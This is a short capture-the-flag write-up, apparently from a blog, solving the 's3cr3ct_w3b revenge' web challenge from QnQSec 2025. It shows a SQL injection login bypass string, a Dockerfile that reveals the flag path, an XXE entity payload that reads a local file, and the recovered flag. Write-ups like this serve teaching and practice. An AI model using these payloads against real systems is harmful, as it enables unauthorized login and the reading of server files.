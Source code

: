 ```yaml
---
layout: post
title:  "s3cr3ct_w3b revenge"
date:   2025-10-18 16:39:43 -0400
author: robo.uzi
tags: [ctf]
permalink: /qnqsec-2025-s3cr3ct-w3b-revenge/
---
```


**Title:** s3cr3ct_w3b revenge

**Category:** web

**Description:** I have hidden secret in this web can you find out the secret?
source files are the same as secret web `(not true?)`

**Author:** LemonTea

`http://161.97.155.116:8088`

I visit the site and login the same way as in the first `s3cr3ct_w3b` challenge (`admin:' OR '1'='1`). 

Once I am logged in I need to find the new path to the flag. I download the new challenge files. Im not sure if `source files are the same as secret web` in the description is an accident or purposeful misdirection. When I download the new files I find the path to the flag in the Dockerfile:
```shell
cat Dockerfile  
FROM php:8.2-apache  
  
  
RUN docker-php-ext-install pdo pdo_mysql  
  
RUN a2enmod rewrite  
  
COPY public/ /var/www/html/  
RUN mkdir -p /var/flags && chown www-data:www-data /var/flags  
COPY flag.txt /var/flags/flag.txt  
  
WORKDIR /var/www/html/  
  
EXPOSE 80
```

I update `xxe.xml` to contain this:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY flag SYSTEM "file:///var/flags/flag.txt">
]>
<root>&flag;</root>
```

Once uploaded and parsed I get this output:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY flag SYSTEM "file:///var/flags/flag.txt">
]>
<root>QnQSec{R3v3ng3_15_sw33t_wh3ne_d0n3_r1ght}
</root>
```

`QnQSec{R3v3ng3_15_sw33t_wh3ne_d0n3_r1ght}`